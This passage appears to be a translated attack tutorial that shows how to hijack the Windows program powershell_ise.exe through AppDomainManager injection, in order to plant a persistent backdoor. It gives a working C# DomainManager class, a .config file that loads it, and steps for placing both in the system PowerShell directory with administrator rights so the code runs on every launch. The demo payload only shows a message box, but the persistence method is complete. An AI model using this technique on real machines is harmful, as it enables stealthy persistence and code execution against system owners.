

4 hijack system.Net program powershell_ise.exe
Next, you need to find the system .Net program available, and try to implement a persistent backdoor.
Here select powershell_ise.exe as a demo
Note: Powershell_ise.exe: full name Windows PowerShell Integrated Scripting Environment (integrated scripting environment)
Graphical interface, mainly used to write and debug powershell scripts
The operation interface is as follows
1, add a reference
Project - right click - add a reference, select System.Windows.Forms
As shown below

The code is modified as follows:
using System;
using System.Windows.Forms;
namespace DomainManager
{
public class InjectedDomainManager : AppDomainManager
{
public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
{
base.InitializeNewDomain(appDomainInfo);
Console.WriteLine("Blah From AppMgr");
MessageBox.Show("1");
}
}
}
Recompile and generate DomainManager.dll
2, test
Hijack program.exe successfully, as shown below

Hijack powershell_ise.exe:
(1) Test the test directory
Copy powershell_ise.exe toc:\test
Create powershell_ise.exe.config in the same directory, the config file can be properly streamlined, and the content is as follows:
<?xml version="1.0"?>
<configuration>
<startup>
<supportedRuntime version="v4.0" />
</startup>
<runtime>
<appDomainManagerType value="DomainManager.InjectedDomainManager" />
<appDomainManagerAssembly value="DomainManager" />
</runtime>
</configuration>
c:\testStart powershell_ise.exe in the directory
Successful hijacking powershell_ise.exe
(2) Test the default directory of powershell_ise.exe
The path is as follows:
C:\Windows\System32\WindowsPowerShell\v1.0
Requires administrator privileges to create hijacked files DomainManager.dll and powershell_ise.exe.config in the default directory
Compile any powershell script, start powershell_ise.exe by default, successfully hijack